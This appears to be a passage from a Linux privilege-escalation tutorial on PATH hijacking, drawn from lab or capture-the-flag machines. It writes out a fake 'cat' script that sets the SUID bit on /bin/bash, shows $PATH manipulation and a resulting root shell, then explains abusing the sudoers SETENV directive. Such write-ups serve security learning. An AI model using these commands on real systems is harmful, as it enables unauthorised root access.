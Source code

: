 ````
echo -e "#!/bin/bash\nchmod u+s /bin/bash" > cat
chmod +x cat
````

Modify your `$PATH` to include the current directory where the malicious script is located. You can do this by running one of the following commands:

````bash
export PATH=$(pwd):$PATH  # This one take your current path
export PATH=.:$PATH  # This one also take your current path
export PATH=$PATH:/home/user/scripts # With this one you can specify the directory

````

This will make the current directory (obtained from `pwd`) the first directory in the `$PATH`, so the system will check there for commands before anywhere else.

````bash
theseus@magic:/tmp$ /bin/sysinfo
theseus@magic:/tmp$ /bin/bash -p
bash-4.4# whoami
root
````

This works because `sysinfo` uses relative paths to invoke system commands (like `fdisk`, `lshw`, `free`, etc.). When the system searches for these commands, it uses the `$PATH` environment variable. If the `$PATH` is manipulated to include the current directory (where the attacker’s malicious file resides), the system will run the malicious file instead of the legitimate system command.

### Abusing sudoers with SETENV
---
The important part here is the SETENV directive, which allows the user to modify environment variables (like $PATH) when running commands with sudo.

What does this mean for Path Hijacking?
When the SETENV directive is present, it allows a user to modify the environment for the command they're running. In particular, they can manipulate the $PATH variable. 
````bash
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh  
````
Here's how it works in this scenario:

Bypassing the system's security path: Normally, when you execute a command, the system looks for executables in a specific order, starting from the directories listed in the $PATH. The entry for secure_path in the sudoers file (/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin) ensures that certain trusted directories are prioritized.

Exploiting SETENV to modify $PATH: The SETENV directive allows the user to set or modify environment variables, including $PATH, when executing a command with sudo. This means that before running /opt/cleanup.sh as root, the user can prepend directories they control (e.g., their home directory or /tmp) to $PATH.
